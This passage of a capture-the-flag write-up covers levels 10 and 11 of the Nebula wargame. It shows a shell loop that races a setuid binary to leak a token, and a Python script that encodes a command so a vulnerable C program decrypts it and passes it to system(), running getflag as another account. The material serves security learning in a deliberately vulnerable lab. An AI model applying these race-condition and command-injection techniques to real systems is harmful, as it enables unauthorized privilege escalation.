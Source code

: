```bash
$ while :; do nice -n 20 /home/flag10/flag10 /tmp/token10 127.0.0.1; done
```
* Eventually we'll get the token in the second terminal: _615a2ce1-b2b5-4c76-8eed-8aa5c4015c27_. We can use it to login as flag10 user.

## Level 11
Level 11 presents a C program that _\"decrypts\"_ an input buffer and passes the result to the `system` command to be executed.  The encryption algorithm is simple, but entertaining to reverse engineer. Before reading on, I encourage you to do the reversing and understand it! I've built a Python script to encrypt any command, so that it will be decrypted correctly by this algorithm and executed:
```python
# Generate initial encoded string to be decoded by level11 parser
# e.g. : python gen.py | /home/flag11/flag11

MAXINT=4294967296

# command string to be obtained
# first part can be any command
cmd="/bin/getflag > /tmp/out11; echo " + "A" * 1024

# build keys array
key = [0 for i in range(0, len(cmd))]

key[0] = len(cmd) & 0xff
for i in range(1, len(cmd)):
	key[i] = key[i-1] - ord(cmd[i-1])
	if (key[i] < 0):
		key[i] += MAXINT

# build initial 'encrypted' string
a = [0 for i in range(0, len(cmd))]
for i in range(0, len(cmd)):
	a[i] = ord(cmd[i]) ^ key[i]
	# trim down to byte
	a[i] &= 0xff

print "Content-Length: " + str(len(cmd)) + "\n" + "".join([chr(i) for i in a])

# verification
for i in range (0, len(cmd)):
	a[i] ^= key[i]
	key[i] -= a[i]
	#print chr(a[i])
```

And to pass the level:
```bash
level11@nebula:~$ python gen.py | TEMP=/tmp /home/flag11/flag11
level11@nebula:~$ cat /tmp/out11
You have successfully executed getflag on a target account
```

